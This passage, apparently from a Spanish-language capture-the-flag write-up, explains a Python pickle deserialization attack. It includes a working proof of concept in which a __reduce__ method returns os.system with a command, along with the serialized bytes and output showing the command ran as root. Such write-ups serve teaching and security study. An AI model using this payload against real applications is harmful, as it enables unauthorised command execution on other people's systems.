 
Además podemos observar  que la comprobación de la whitelist de personajes comprueba unicamente si la palabra se encuentra en la cadena de texto que introducimos. Podemos aprovecharnos de todo esto para explotar un ataque de deserialización. Pickle es una librería que permite serializar y deserializar datos, pero si la aplicación no está bien diseñada nos podemos aprovechar de esto. https://davidhamann.de/2020/04/05/exploiting-python-pickle/

Voy a explicar de una forma muy rápida como funciona todo esto. Nosotros tenemos el siguiente código en python para serealizar datos.


```python
import pickle,os

class Serealize(object):
        def __reduce__(self):
                return(os.system,("whoami",))
deserealized_payload = Serealize()
serealized_payload = pickle.dumps(deserealized_payload)
print (serealized_payload)
```

En este caso estamos creado los datos serializados, si ejecutamos el script podemos ver los siguiente:


```bash
❯ python2 test.py
cposix
system
p0
(S'whoami'
p1
tp2
Rp3
.
```

Podemos ver nuestro comando y "p1" por lo tanto se ejecutara el if que vimos anteriormente y hara uso de la función loads. Veamos que pasa si se llama a esa función.

```bash
import pickle,os
class Serealize(object):
        def __reduce__(self):
                return(os.system,("whoami",))

deserealized_payload = Serealize()

serealized_payload = pickle.dumps(deserealized_payload)

pickle.loads(serealized_payload)
```

Si ejecutamos el script veremos lo que ocurre:

```bash
❯ python2 test.py
root
```
